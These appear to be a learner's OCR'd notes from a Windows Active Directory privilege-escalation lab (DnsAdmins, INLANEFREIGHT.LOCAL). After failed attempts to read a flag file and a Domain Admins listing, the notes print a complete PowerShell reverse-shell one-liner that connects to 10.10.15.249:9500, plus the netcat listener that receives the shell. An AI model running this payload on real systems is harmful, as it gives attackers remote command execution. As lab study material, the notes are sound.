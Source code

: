 type c:\Users\Administrator\Desktop\DnsAdmins\flag.txt

C:\Users\netadm>type c:\Users\Administrator\Desktop\DnsAdmins\flag.txt
Access is denied.

Run CMD as administrator :

C:\Users\netadm>type c:\Users\Administrator\Desktop\DnsAdmins\flag.txt
Access is denied.

PS C:\Tools> Get-ADGroupMember -Identity "Domain Admins"


distinguishedName : CN=Administrator,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : Administrator
objectClass       : user
objectGUID        : f28ab72b-9b16-4b52-9f63-ef4ea96de215
SamAccountName    : Administrator
SID               : S-1-5-21-669053619-2741956077-1013132368-500

distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109

https://www.revshells.com/

$PSVersionTable

Name                           Value
----                           -----
PSVersion                      5.1.17763.1
PSEdition                      Desktop
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0...}
BuildVersion                   10.0.17763.1
CLRVersion                     4.0.30319.42000
WSManStackVersion              3.0
PSRemotingProtocolVersion      2.3
SerializationVersion           1.1.0.1



cmd :

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.249',9500);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

nc -lvnp 9500

Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9500
Ncat: Listening on 0.0.0.0:9500
id
Ncat: Connection from 10.129.43.42.
Ncat: Connection from 10.129.43.42:62369.
PS C:\Users\netadm> 
